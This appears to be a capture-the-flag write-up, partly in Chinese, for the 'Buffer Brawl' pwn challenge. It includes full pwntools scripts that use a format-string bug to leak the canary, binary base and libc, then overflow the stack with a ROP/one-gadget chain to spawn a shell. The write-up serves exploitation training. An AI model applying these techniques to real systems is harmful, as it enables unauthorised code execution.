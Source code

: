 # Beginners - Buffer Brawl Writeup

---  
![Tonight... we are going to witness the most anticipated match in the history of CyberSec! Step into the ring for the ultimate showdown against the stack! Will you land the perfect punch or fall victim to a devastating counter? In this high-stakes match, precision and timing are your best allies. May the best hacker win!](pic/buffer_brawl.png)

## FLAG：
` `

## 觀察：
- 執行檔案：各種選項，可以觸發一些function。
  ![pic](pic/run.png)
- IDA分析：
	- `menu()`：![pic](pic/menu.png)
	- `slip()`：
	  ![pic](pic/slip.png)
	- `stack_check_up()`
	  ![pic](pic/stack_check_up.png)

## 思路：
- `slip()`有format string漏洞，可以leak出 ELF base、canary 以及 libc base。
- `stack_check_up()`有bof漏洞，可以RCE。
- 題目沒給libc，透過leak出的`puts()`offset (或更多)，在 [https://libc.rip/](https://libc.rip/ "https://libc.rip/") 查詢libc版本。
- ROP、ret2libc、one-gadget。

## 目標：
- ROP、ret2libc。

## 步驟:

1. 用format string attack 找到 canary 與 ELF address分別在第11與13個參數，leak出它們。
2. leak出libc。
3. 執行到bof處，填入canary、執行ROP chain：控制rbp周圍可寫、ret2libc。

## Exploit：  

fmt_attack.py
```python
from pwn import *
p = process('./buffer_brawl')
p.sendlineafter(b'> ', b'4')
p.recvuntil(b'Right or left?\n')
p.sendline(b"%p" * 14)
stack = p.recvline(keepends=False)
stack = [
    int(s, 16) for s in stack.replace(b"(nil)", b"0x0").replace(b"0x", b" ").split()
]
for i, s in enumerate(stack):
    print(f"{i+1}: {p64(s)} {hex(s)}")
```
![pic](pic/fmt_attack.png)
solve.py
```python
from pwn import *
exe = context.binary = ELF("buffer_brawl", checksec=False)
libc = exe.libc
p = process(exe.path)
  
def stack_leak(payload) -> bytes:
    p.sendline(b"4")
    p.sendlineafter(b"Right or left?\n", payload)
    return p.recvline()
  
def leak_got(symbol) -> int:
    addr = stack_leak(b"%7$s".ljust(8, b"_") + p64(exe.got[symbol]))
    addr = u64(addr[:6] + b"\x00\x00")
    return addr
  
canary, exe_leak = stack_leak(b"%11$p %13$p").split()
canary = int(canary, 16)
exe_leak = int(exe_leak, 16)
exe.address = exe_leak - 0x1747
puts_addr = leak_got("puts")
libc.address = puts_addr - libc.sym.puts
  
p.info(f"{puts_addr = :x}")
p.info(f"{canary = :x}")
p.info(f"{exe.address = :x}")
p.info(f"{libc.address = :x}")
  
for i in range(29):
    p.sendlineafter(b"\n> ", b"3")
  
pop_rbp = exe.address + 0x11b3  # pop rbp; ret;
bss = exe.address + 0x4100      # any writable address
exec = libc.address + 0xebd43   # one-gadget
payload = b'A'*24+p64(canary)+b'B'*8 + flat([pop_rbp, bss, exec])
p.sendline(payload)
p.interactive()
```

![pic](pic/flag.png)